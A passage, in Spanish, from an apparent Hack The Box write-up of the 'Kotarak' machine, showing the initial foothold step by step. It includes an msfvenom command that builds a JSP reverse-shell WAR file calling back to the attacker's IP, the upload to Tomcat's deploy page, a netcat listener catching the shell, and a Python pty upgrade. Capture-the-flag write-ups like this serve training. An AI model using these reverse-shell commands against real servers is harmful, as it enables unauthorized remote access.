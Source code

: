 Para poder ingresar a la máquina, ya debemos saber que necesitamos crear un archivo de extensión `war` y subirlo a la máquina (**Nota**: El archivo se sube en la parte donde se indica "Archivo WAR a desplegar").

```bash
❯ msfvenom -p java/jsp_shell_reverse_tcp lhost=10.10.14.16 lport=443 -f war -o shell.war
Payload size: 1096 bytes
Final size of war file: 1096 bytes
Saved as: shell.war
```

![](/assets/images/htb-kotarak/kotarak-war.png)

Nos ponemos en escucha por el puerto 443 y le damos click en nuestro archivo `/shell`:

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.16] from (UNKNOWN) [10.10.10.55] 49290
whoami
tomcat
```

Ya nos encontramos dentro de la máquina y vamos a hacer un [Tratamiento de la tty](/tratamiento-tty) para trabajar más cómodos. Para este caso, vamos a tener un detalle al ejecutar el comando `script /dev/null -c bash` que no nos arroja una pseudo consola así que vamos a utilizar el comando `whereis python` para ver que versiones de python cuenta la máquina víctima y posterior ejecutamos `python3.5 -c 'import pty; pty.spawn("/bin/bash")'` para tener ahora si una pseudo consola (**Nota**: En caso de que no se nos cree la pseudo consola, ejecutar nuevamente el comando) y proseguimos con el tratamiento de la tty.
